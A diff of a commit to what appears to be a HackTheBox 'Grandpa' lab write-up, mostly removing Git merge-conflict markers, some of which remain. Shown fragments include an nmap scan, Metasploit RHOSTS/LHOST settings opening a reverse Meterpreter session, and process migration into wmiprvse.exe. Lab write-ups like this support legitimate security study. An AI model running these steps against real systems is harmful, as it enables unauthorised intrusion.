

Before and after one commit to JaedongSeo/HackTheBox, a Markdown page: Grandpa/README.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Grandpa/README.md
+++ b/Grandpa/README.md
@@ -14,9 +14,7 @@
 ```bash
 nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
 ```
-<<<<<<< HEAD
-<<<<<<< HEAD
-<<<<<<< HEAD
+
 ![nmap](img/nmap.png)
 =======
 >>>>>>> 9f1f476 (Add files via upload)
@@ -73,9 +71,7 @@ set RHOSTS 10.129.95.233
 set LHOST 10.10.14.156
 run
 ```
-<<<<<<< HEAD
-<<<<<<< HEAD
-<<<<<<< HEAD
+
 =======
 >>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf
 ![meterpreter](img/meterpreter.png)
@@ -83,7 +79,7 @@ run
 > Meterpreter session opened.
 
 ![lowprivi](img/lowprivi.png)
-<<<<<<< HEAD
+
 =======
 
 > Meterpreter session opened.
@@ -107,9 +103,7 @@ ps
 migrate 1896  # wmiprvse.exe
 getuid
 ```
-<<<<<<< HEAD
-<<<<<<< HEAD
-<<<<<<< HEAD
+
 ![migrate](img/migrate.png)
 =======
 >>>>>>> 9f1f476 (Add files via upload)
````
Also changed, not shown: other parts of Grandpa/README.md (+4 -12 lines).
